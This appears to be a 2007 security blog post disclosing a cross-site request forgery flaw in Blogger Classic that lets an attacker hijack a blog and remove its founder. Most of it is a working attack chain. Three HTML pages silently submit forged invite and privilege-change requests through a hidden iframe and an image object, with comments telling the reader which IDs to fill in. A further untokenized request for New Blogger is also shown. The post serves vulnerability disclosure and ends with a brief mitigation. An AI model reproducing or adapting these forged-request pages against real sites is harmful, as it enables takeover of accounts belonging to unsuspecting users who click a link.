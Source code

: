 ```yaml
---
title: CSRF-ing Blogger Classic
author: pagvac
date: Fri, 19 Jan 2007 10:02:10 GMT
template: post.jade
---
```


In [Blogger](http://www.blogger.com) Classic, admin users who originally created a blog can be removed by other admin users. This behavior allows for a complete and non-reversible hijack of a Blogger Classic blog through  CSRF/XSRF/session riding/one-click attacks.

The process is a two shots attacks, meaning that the victim admin user needs to click on two different links while being authenticated. Due to the nature of blogging, in which admins go through the comments posted by visitors, this attack is very feasible. This is probably even more true for blogs that are moderated, since blog admins review posts carefully including URLs embedded in posts before publishing the posts, thus clicking on the evil link **while authenticated**.

What each evil URL does:

1. Send an invitation link to the attacker on behalf of the admin user in order to become a blog member (only permission to create new posts is given to the attacker at this point)
2. Change the attacker's permissions from guest to admin.

After this, the attacker can login to the target blog as an admin user and remove the original admin user who created the blog (remember that in "Blogger Classic" admins users can remove the original admin user of the blog). The only rule is that there must exist **at least one admin user**. At this point, the victim admin user can never take control over the  blog even though he/she was the original founder.

---

### blogger-classic-attack-step-1.html

```html
<HTML><BODY>
<H1>You are being CSRFed in the background while viewing this HTML page</H1>
<iframe src="./blogger-classic-add-user.html" height="0" width="0" frameborder="0">
</BODY></HTML>
```

---

### blogger-classic-add-user.html

```html
<HTML><BODY>
<!--
Blogger Classic "invite new team member" request
POST http://www.blogger.com/send-invite.do

blogID=12345678&email0=attacker@domain.com&email1=&email2=&inviteMessage=

Note: 'blogID' can be found by visitors on the main page of a blog within several URLs in the source code of the page. Change 'email0' with attacker's email.
-->
<form method="POST" id="evil" name="evil" action="http://www.blogger.com/send-invite.do">
<input type="hidden" name="blogID" value="12345678">
<input type="hidden" name="email0" value="attacker@domain.com">
<input type="hidden" name="email1" value="">
<input type="hidden" name="email2" value="">
<input type="hidden" name="inviteMessage" value="">
</form>
<script>document.evil.submit()</script>
</BODY></HTML>
```

---

### blogger-classic-attack-step-2.html

```html
<html><body>
<!--
This request is a GET, and makes an existing guest member (the attacker in this case) an admin.

i.e.:
http://www.blogger.com/team-member-modify.do?blogID=12345678&memberID=55555555&isAdmin=1

Note: assign to 'memberID' the value of the 'userID' of the attacker. 'userID' can be found after logging into Blogger Classic (rather than "New Blogger") using the attacker's Blogger Classic account and accessing "edit profile"  (variable in HTML form named 'userID').
This value is also available in the address bar's URL after acessing "view profile" (i.e.: http://www.blogger.com/profile/55555555) .
'blogID' is the same value as the one used in the first HTML attack page ("blogger-classic-add-user.html").
-->
<script>
	var_blogID=12345678; // change to ID of target Blogger Classic blog
	var_memberID=55555555; // change to attacker's member ID

	new Image().src="http://www.blogger.com/team-member-modify.do?blogID="+var_blogID+"&memberID="+var_memberID+"&isAdmin=1";
</script>
<H1>You are being CSRFed in the background while viewing this HTML page</H2>
</body></html>
```

---

After visiting a URL that contains the second HTML file, the attacker can now login to the target blog as an admin user and remove the original owner of the blog, thus completely hijacking the blog. The attack could be even more automated, but the attack walkthrough discussed here is enough to take over a "Classic Blogger" blog.

The first attack HTML file _attack-step-1.html_ calls _blogger-classic-add-user.html_ through an iframe so that the forged POST request is sent **in the background** while the victim admin user is viewing the HTML page. The second second attack HTML file _blogger-classic-attack-step-1.html_ uses an image object that sends the forged GET request **in the background** without needing to use an iframe.

By the way, in "New Blogger" there are also some interesting requests that are not being tokenized. Similar to Blogger Classic, changing profile details does require a token (i.e.: 'securityToken' parameter), while inviting a new user, for instance, does not. I.e.:

```http
POST http://www2.blogger.com/add-authors.do

blogID=1234567890123456789&authorsList=attacker%40domain.com+&submit=true
```

Note: I suspect that it is possible to tell when a blog is "Classic Blogger" or "New Blogger" by looking up the 'blogID' value from the source code of the main blog page and checking if the numeric value is 8 digits long, rather than 19 digits long which is used by "New Blogger"

Solution: admin users are recommended to switch to new blogger, and to use a different web browser to visit links while logged on to Blogger.

Greetings to pdp, David Kierznowski , Amir Azam (thanks for testing the attack). This CSRF experiment is dedicated to my babe peluchita!!!
